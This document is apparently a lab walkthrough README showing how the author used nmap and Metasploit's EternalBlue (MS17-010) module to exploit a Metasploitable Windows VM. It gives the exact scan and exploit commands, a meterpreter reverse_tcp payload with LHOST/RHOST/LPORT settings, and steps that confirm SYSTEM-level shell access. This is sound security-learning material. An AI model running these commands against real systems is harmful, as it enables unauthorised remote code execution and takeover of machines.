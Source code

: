 # Eternal Blue

## Objective: To gain remote access, scan, and exploit SMB vulnerabilities with Nmap and Metasploit.

## Walkthrough:
- I initiated the assignment by executing the **ifconfig** command on my Kali VM, identifying the machine's IP address as 10.0.2.6.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB1.jpg" alt="">
</p>

- I then proceeded with an nmap scan targeting the IP address to locate the metasploitable Windows machine. The results showed the machine's IP address as 10.0.2.8, and the open ports 139 and 445 indicated the running SMB service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB2.jpg" alt="">
</p>

- To leverage nse scripts, I ran **nmap -Pn -p139,445 --script=smbvuln-* 10.0.2.8**. The output highlighted the vulnerability **smb-vuln-ms17-010**, susceptible to remote code execution and classified as a high-risk factor.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB3.jpg" alt="">
</p>

- To proceed, I launched the Metasploit framework using the **msfconsole** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB4.jpg" alt="">
</p>

- Within Metasploit, I searched for the **eternalblue** exploit using **search eternalblue**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB5.jpg" alt="">
</p>

- I selected the **MS17-010 EternalBlue SMB Remote Windows** module with **use exploit/windows/smb/ms17_010_eternalblue**. By default, the PAYLOAD was set to **windows/x64/meterpreter/reverse_tcp**. Necessary adjustments were made to RHOSTS (10.0.2.8, Target IP), LHOST (10.0.2.6, Kali IP), and LPORT (4444, designated listening port).

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB6.jpg" alt="">
</p>

- Initiating the attack, I executed the **exploit** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB7.jpg" alt="">
</p>

- To confirm successful entry into the metasploitable VM, I ran **sysinfo**. Verification of the user-level access was achieved with the **getuid** command, revealing the access level as **SYSTEM** - the highest privilege on the machine.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB8.jpg" alt="">
</p>

- Lastly, to imprint my identity on the remote machine's terminal, I invoked the **shell** command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Eternal%20Blue/Assets/EB9.jpg" alt="">
</p>
